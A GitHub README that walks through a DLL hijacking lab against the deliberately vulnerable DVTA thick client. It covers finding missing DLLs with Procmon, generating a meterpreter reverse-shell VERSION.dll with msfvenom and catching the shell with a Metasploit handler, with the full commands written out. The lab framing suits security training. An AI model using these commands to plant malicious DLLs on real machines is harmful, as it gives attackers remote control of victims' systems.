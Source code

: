 # DLL⚙️ Hijacking

DLL files contains executable code that can be used by other applications. When an application needs to use this DLL file, it has to search for it if the absolute path is not provided. If an attacker replaces his own DLL file with the name that the application is searching for, then the application loads the attacker’s DLL and executes the malicious code. This is known as DLL Hijacking Attack.

## Tools Required:
- VMWare, Procmon (Process Monitor), MsfVenom, Metasploit, Apache Server

## Lab Setup
- Create two virtual machine:
  - ***Windows OS*** for executing exe application *(Victim Machine)*
    - Download [**DVTA**](https://github.com/srini0x00/dvta) Vulnerable Thick Client Application developed in C# .NET for learning purpose.  
  - ***Kali Linux*** for obtain system access using reverse shell handler *(Attacker Machine)*

## POC

> ### **Step-1: Identifying vulnerable DLLs that we can Hijack.**
 - Install Applciation on Windows System >> Start Application >> Open Procmon tool 
 - Apply three filters in Procmon (Menu Filter -> Filter)
```
   1. Process Name = contains = "Select Your Application Name" -> [ Add ]
   2. Path         = contains = ".dll"                         -> [ Add ] 
   3. Result       = contains = "NAME NOT FOUND"               -> [ Add ]
     
      Click [ OK ] for apply filters.
```
![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/1.jpg)
  
> ### **Step-2: Closed the application and Re-open that application so all the process according to filter will show in** ***Procmon***  

> ### **Step-3: Now find the Dlls which are trying to load from current working application but is not available** ***(e.g: VERSION.DLL)***

![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/3.jpg) 
            Application is trying to load VERSION.DLL but not able to find in to application directory.
            
> ### **Step-4: Next step is create malicious DLL named VERSION.DLL using** ***MsfVenom (Kali Linux)***

``` 
   $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.252.130 LPORT=8888 -f dll > VERSION.dll 
```
![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/4.jpg)

> ### **Step-5: Now create reverse shell handler with msfconsole**

```
   $ sudo msfconsole
      
   msf > use exploit/multi/handler

   msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   payload => windows/meterpreter/reverse_tcp

   msf exploit(multi/handler) > set LHOST 192.168.252.130  (Replace your attacker machine IP i.e Kali Linux IP)
   LHOST => 192.168.252.130

   msf exploit(multi/handler) > set LPORT 8888
   LPORT => 8888

   msf exploit(multi/handler) > exploit  
```
   Done..! 
   
![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/5.jpg)

> ### **Step-6: Reverse shell handler created successfully, Now paste malicious DLL(which we created through Step-4) in to the application directory & launch the application**

![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/6.jpg)

 **As you can see application is trying to load the malicious DLL without checking it and we got system reverse shell.** 

